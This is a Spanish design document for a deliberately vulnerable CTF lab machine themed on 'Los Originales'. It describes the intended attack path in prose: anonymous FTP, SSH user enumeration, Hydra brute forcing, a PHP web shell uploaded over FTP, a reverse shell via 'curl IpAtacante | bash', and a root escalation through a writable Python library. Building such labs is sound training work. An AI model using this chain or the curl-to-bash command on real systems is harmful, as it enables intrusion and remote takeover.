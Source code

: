 # **Máquina: Diseño Inseguro**

## Objetivo
Esta máquina está específicamente diseñada para explotar la vulnerabilidad ***A04:2021 - Diseño Inseguro*** y otras vulnerabilidades.

## Planteamiento
Para cumplir con este objetivo, la máquina alojará varios servicios como **FTP**, **SSH** y **Apache**.

Estos servicios se encontrarán expuestos externamente para que cuando el atacante realice un reconocimiento pueda detectarlos.

El servicio **FTP** podrá ser accesible de forma anónima.

El servicio de **SSH** no tendrá ninguna función más que despistar al atacante.

El servicio de **apache** alojará nuestra pagina web la cual esta inspirada en la serie **Los Originales**. La web será vulnerable a la vulnerabilidad **Diseño Inseguro**, la cual estará enfocada a una gestión insegura de los permisos de usuarios FTP.

****

Para comenzar el atacante realizará un reconocimiento de los servicios expuestos por la maquina, y de primeras podrá ver que el servicio **FTP** es propenso a hacer un login mediante el usuario de **anonymous** y que el **SSH** es propenso a enumeración de usuarios.

Cuando el atacante se ponga a revisar la web y realizar **FUZZING** para descubrir subdirectorios ocultos, encontrará el directorio **documents**, el cual al intentar acceder no tendra permisos de lectura.

Si el atacante sigue revisando la web, encontrará que no hay ningun vector de entrada a través de la pagina web, por lo cual se pondrá a probar que puede hacer con el usuario de **anonymous** en **FTP**, pero se dará cuenta que con este usuario tampoco puede realizar acciones importantes para vulnerar la maquina.

El atacante se pondrá a revisar mejor la web y verá que se hablan de personajes de la serie, por lo cual se creará un diccionario con nombres de usuario relacionados con los personajes de la serie **Los Originales**, de esta forma el atacante utilizará una script en **Python** para enumerar los usuarios existentes del sistema mediante **SSH**, consiguiendo encontrar al usuario **elijah** existente en la maquina.

Una vez el atacante sepa que el usuario **elijah** existe en la maquina, utilizará la herramienta **Hydra** junto con el diccionario de contraseñas **rockyou.txt** y el usuario **elijah** para realizar un ataque de fuerza bruta e intentar averiguar la contraseña del usuario atacando al servicio de **FTP**, de esta forma obtendremos la contraseña del usuario **elijah** para acceder al **FTP**.

Cuando el atacante acceda al **FTP** con el usuario de **elijah** podrá ver que puede visualizar un directorio **elijah**, en el cual despues de probar a realizar que acciones puede hacer, verá que puede subir ficheros dentro de este directorio **elijah**, de esta forma el atacante subira un fichero **cmd.php** el cual tendrá codigo en PHP para realizar una **RCE**.

Sabiendo todo esto, el atacante accederá al directorio **documents** dentro de la web y verá que dentro de **documents** existe **elijah**, de esta forma llegará a la conclusión que el fichero con el **RCE** que ha subido dentro de **elijah** por **FTP** esta sincronizado con los directorios de la web, por lo que si accede a este fichero y ejecuta **cmd=whoami** y por pantalla le muestra **www-data** verá que tiene ejecución remota de comandos.

De esta forma el atacante, se creará un **index.html** con codigo para ejecutarse una **reverse shell** en **bash**, se creará un servicio **HTTP** y se pondra en escucha por el **puerto 443**, dentro de la url hará que la maquina realice un **curl** a la IP del atacante y "pipeara" el resultado con **bash** **(http://IpMaquina/cmd.php?cmd=curl IpAtacante | bash)**, realizando esto obtendremos una **reverse shell** y obtendremos acceso a la maquina como **www-data** en donde realizaremos un tratamiento de la **TTY**.

Una vez ya tenemos acceso como **www-data** dentro de la maquina, el atacante encontrará una imagen del personaje de **caroline**, esta imagen tendra el nombre de **caroline.jpg** y estara ubicado en **/var/www/**, esta imagen tendrá un fichero **zip** oculto, que se podrá extraer mediante la herramienta de **binwalk**, una vez el atacante ha extraido este fichero **zip** vera que al intentar **"unzipearlo"** este se encuentra protegido con contraseña, por lo cual se deberá extraer un **hash** de la contraseña mediante **zip2john** y despues crackear este **hash** con la herramienta de **John**.

Cuando se tenga la contraseña del fichero **zip**, lo descomprimimos y veremos un fichero con muchas contraseñas, las cuales estas contraseñas se utilizaran junto al usuario de **caroline** y la herramienta de **Hydra** para descubrir si alguna de estas contraseñas pertenece la usuaria **caroline** y es posible acceder por **SSH**.

Con **Hydra** descubrimos la contraseña de **caroline** e iniciamos sesión por **SSH** para obtener acceso a la maquina, una vez tenemos acceso a la maquina con la usuaria **caroline**, el atacante el atacante podrá visualizar la flag **user.txt** en el directorio **/home/caroline/**.
El atacante se pondrá a buscar la forma de escalar privilegios, despues de estar buscando encontrará que puede ejecutar el binario de **python3.10** sin contraseña como **root**. Además tambien encontrará en el **home** de la usuaria **caroline**, un fichero con nombre **codificadorNombres.py**, el cual tiene la función de mostrar el nombre que reciba como parametro a **base64**.

Si el atacante visualiza como funciona este script verá que se importan las librerias de **system** y **base64**, sabiendo esto, se pondra verificará y encontrará que los permisos de la libreria **base64.py** para **python3.10** tiene permisos para que **otros** puedan modificar el contenido de la libreria y guardarlo, por lo cual el atacante editará el fichero de **base64.py** y en la función de **b64enconde** que utiliza el **script** de **codificadorNombres.py** se añadira una linea para que cuando se ejecute el **script**, el usuario que ejecute el script **"spawnee"** una **bash**.

De esta forma como el atacante puede ejecutar el binario **python3.10** como **root**, ejecutará el **script codificadorNombres.py**  utilizando **python3.10** como el usuario **root**, de esta forma se **"spawneara"** una **bash** como **root**, por lo tanto el atacante habria escalado sus privilegios al usuario con más privilegios.

Una vez tenga acceso con el usuario **root**, el atacante podrá visualizar el flag de **root.txt** dentro de **/root/**, además de obtener acceso completo a toda la maquina.

## Configuración del entorno
Para configurar el entorno utilizaremos un contenedor Docker con el sistema operativo Ubuntu Server. Los servicios que utilizaremos son:

- **FTP**: *vsftpd 3.0.5* --> Para transferencia de archivos.
- **SSH**: *OpenSSH 7.2p2* --> Para acceso remoto seguro.
- **HTTP**: *Apache 2.4.52* --> Para el servidor web.
 
## Pasos a seguir

1. **Instalación de Docker**
2. **Creación del Dockerfile**
3. **Verificación de contenedor Docker**
4. **Primeras pruebas de Docker**
5. **Configuración de la máquina y paquetes**
6. **Testeo de vulnerabilidades**
7. **Aplicar mejoras y corregir errores/problemas**
8. **Volver a testear las vulnerabilidades**
9. **Redactar el reporte y documentación final**
